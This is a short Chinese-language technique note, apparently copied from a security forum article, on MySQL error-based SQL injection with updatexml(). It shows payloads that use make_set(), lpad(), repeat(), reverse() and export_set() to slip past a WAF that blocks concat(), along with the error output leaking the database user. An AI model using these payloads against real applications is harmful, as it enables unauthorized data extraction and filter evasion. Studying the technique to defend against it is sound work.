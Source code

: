 [updatexml injection without concat - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2160)

当使用 `updatexml()` 的 `hex` 进行报错注入读数据时，可能会发生数据丢失的情况。原因是 `updatexml` 中存在特殊字符、字母时，会出现报错，**报错信息为特殊字符、字母及之后的内容**，而 `hex` 出的数据包含字母和数字，所以第一个字母前面的内容都会丢失，如下：

<img src=".\图片\Snipaste_2023-04-03_16-11-24.png" alt="Snipaste_2023-04-03_16-11-24" style="zoom:80%;" />

既然 updatexml 函数是从特殊字符、字母后面开始截取的，我们就需要在我们想要的数据前面拼接上特殊字符。当waf禁用了concat等常见字符串拼接函数，那么我们可以**使用冷门的字符串处理函数绕过**，这里感谢`雨了个雨`师傅提供的payload

```sql
mysql> select updatexml(1,make_set(3,'~',(select user())),1);
```

<img src=".\图片\Snipaste_2023-04-03_16-13-38.png" alt="Snipaste_2023-04-03_16-13-38" style="zoom:80%;" />

关于 make_set 函数的用法，可以参考：[mysql MAKE_SET()用法](http://blog.csdn.net/fangzy0112/article/details/27323603) ，我们还可以找到类似的函数：lpad()、reverse()、repeat()、export_set()

（**lpad()、reverse()、repeat()这三个函数使用的前提是所查询的值中，必须至少含有一个特殊字符，否则会漏掉一些数据**）

```sql
mysql> select updatexml(1,lpad('@',30,(select user())),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhostroot@localhostr@'


mysql> select updatexml(1,repeat((select user()),2),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhostroot@localhost'


mysql> select updatexml(1,(select user()),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhost'
mysql> select updatexml(1,reverse((select user())),1);
ERROR 1105 (HY000): XPATH syntax error: '@toor'


mysql> select updatexml(1,export_set(1|2,'::',(select user())),1);
ERROR 1105 (HY000): XPATH syntax error: '::,::,root@localhost,root@localh'
```
